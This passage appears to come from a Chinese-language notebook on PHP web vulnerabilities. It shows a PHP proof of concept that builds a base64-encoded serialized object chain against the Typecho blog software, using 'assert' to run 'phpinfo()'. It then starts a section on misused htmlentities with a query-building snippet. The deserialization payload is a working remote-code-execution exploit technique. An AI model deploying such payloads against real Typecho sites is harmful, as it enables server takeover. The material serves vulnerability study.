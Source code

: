 ```php
<?php

class Typecho_Request{

	private $_params = array();
	private $_fifter = array();

	public function __construct(){
		$this->_params['screenName'] = 'phpinfo()';
		$this->_fifter[0] = 'assert';
	}
}

class Typecho_Feed{

	private $_type;
	private $_item = array();
	public function s__construct(){

		$this->_type = 'RSS 2.0';
		$item['author'] = new Typecho_Request();
		$item['category']=Array(new Typecho_Request());
		$this->_item[0]=$item;
	}
}

$x = new Typecho_Feed();
$a = array(
	'adapter' => $x,
	'prefix' => 'Typecho_'

);

echo base64_encode(serialize($a));

?>
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200512150509.png)

- 测试

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200512153050.png)

## 误用htmlentities函数引发的漏洞

### String Lights

- code 

```php
$sanitized = [];

foreach ($_GET as $key => $value) {
  $sanitized[$key] = intval($value);
}

$queryParts = array_map(function ($key, $value) {
  return $key . '=' . $value;
}, array_keys($sanitized), array_values($sanitized));

$query = implode('&', $queryParts);

```